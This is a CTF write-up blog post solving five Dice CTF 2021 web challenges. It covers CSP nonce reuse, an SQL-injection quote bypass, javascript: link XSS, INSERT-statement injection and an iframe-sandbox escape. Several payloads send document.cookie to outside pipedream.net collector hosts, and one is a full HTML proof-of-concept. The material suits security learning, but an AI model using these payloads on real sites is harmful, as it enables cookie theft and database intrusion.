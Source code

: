 ```yaml
---
layout: post
date: 2021-02-08 00:00:10
title: "Dice CTF Write Up"
categories: CTF
tags: [XSS, SQL Injection]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image2/blob/main/Dice%20CTF/dice%20main.png?raw=true)

2021년 2월 6일부터 8일 새벽까지는 Dice CTF의 모든 시간을 쏟아 웹 문제를 풀어보았습니다. 한 문제의 12 시간을 연달아 풀어본 적은 없었는 데 이번 대회에선 이렇게 열심히 풀었던 이유는 미국의 RGB 팀에 들어가기 위해서였습니다. RGB 팀의 미국 형님(팀장)은 날 원하는데 팀원들도 있기 때문에 Dice CTF에서 좋은 성과를 내서 팀원들한테도 인정을 받으라는 뉘앙스로 말씀을 하셔서였다. 여튼 이번 대회에서 해결 한 웹 5 문제 Write Up을 작성해보겠습니다.<br>

---
## <span style="color:#21C587"></span> (Web) Babier CSP [107 pts]

> The Babier CSP challenge is a simple CSP Bypass challenge.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
```
If you check the source code, you can see that the nonce value of the script tag is set as above. I thought that the admin bot was also applying the nonce value as above.

```
<script nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net"%2bdocument.cookie</script>
```
The payload used is as above.<br>

> FLAG : dice{web_1s_a_stat3_0f_grac3_857720}

---
## <span style="color:#21C587"></span> (Web) Missing Flavortext [111 pts]

>  The Missing Flavortext challenge is a SQL Injection challenge that bypasses single quotas by using the features of express.js.

```javascript
if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
  return res.redirect('/');
}
```
In the code above, single quota is filtered using the includes function. However, this can be bypassed by passing it as an array because it only verifies strings.

```
username=admin&password[]=1&password[]=' or '1'='1
```
The payload used is as above.<br>

> FLAG : dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}

---
## <span style="color:#21C587"></span> (Web) Web Utils [121 pts]

> TThe Web Utils challenge is a challenge that triggers XSS using a vulnerability when receiving the req.body value.

```html
// view.html

<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
```
It is view.html code, and if the type is link in the middle, you can see window.location as data. And if data contains a payload such as `javascript:alert(1)`, you can trigger xss.<br>

```javascript
// api.js
(skip)

module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
        
(skip)
```
However, if you look at the link creation logic, the value of `req.body.data` is verified with a regular expression. So, you can't put xss payload in the link creation logic.<br>

```javascript
// api.js
(skip)

fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)

(skip)
```
However, if you look at the logic that creates the Pate, there is no verification for req.body, which causes a vulnerability here. Using this, you can give type as link and data as xss payload.

```
{"data":"javascript:alert(1)","type":"link"}
{"data":"javascript:location.href='https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/'%2bdocument.cookie","type":"link"}
```
The payload used is as above.<br>   

> FLAG : dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}

---
## <span style="color:#21C587"></span> (Web) Build a Panel [130 pts]

>  The Build a Panel challenge is the challenge of reading flags using SQL Injection in the insert statement.

```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
This is the logic of add_widget running on admin bot. When looking at the query, the input value is entered without any verification, so SQL Injection can be performed.<br>

If we put our panelid in panelid and a query that reads flag in widgetname, a widget is created on our server, and the widget name contains `FLAG`. (panelid is stored in a cookie.)

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=pocas&widgetname=adfdaf&widgetdata=a'), ('pocas', (select flag from flag), '{"type":"pocas"}')--
```
The payload used is as above.<br> 

> FLAG : dice{ch41n_ChAIn_aNd_m0Re_cHaIn}

---

## <span style="color:#21C587"></span> (Web) Web IDE [196 pts]

> The Web IDE challenge is a challenge that bypasses iframe sandbox and triggers XSS.

- Scenario<br>

1. We are using `allow-scripts` as an option for iframe, and the value we input is executed by the eval function in sandbox.html.
2. The path to the administrator's cookie is /ide, so it is not easy to read the cookie. Because xss payload runs in /sandbox.html.
3. So, first you need to create a separate site and bypass the iframe sandbox.
4. If you bypass the iframe sandbox, you are not limited by sop, and you can freely execute xss payloads.
5. However, since xss payload is executed in `/sandbox.html`, it cannot read the admin cookie.
6. So, create an object using `window.open("/ide")`, and execute xss payload on the object to steal the cookie.<br>

```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
    <script>
        async function sendMessage() {
            // window open -> make file -> include it
            const cmd="[].constructor.constructor(\"(async () => {const res = await fetch('https://web-ide.dicec.tf/ide/save', {method:'POST', headers: {'Content-Type': 'application/javascript'}, body: 'const myWindow = window.open(\\\"/ide\\\"); (async (myWindow) => { await setTimeout( async() => {await fetch(`https://en20uuq0p0wxmkp.m.pipedream.net/?flag=${myWindow.document.cookie}`)}, 500) })(myWindow)'}); const file_name = await res.text(); const scr = document.createElement('script'); scr.src = `/ide/saves/${file_name}`; document.body.appendChild(scr);})()\")()"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="sendMessage()" />
      <iframe name='hh' src="https://web-ide.dicec.tf/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```
The payload used is as above.<br> 

> FLAG : dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

---
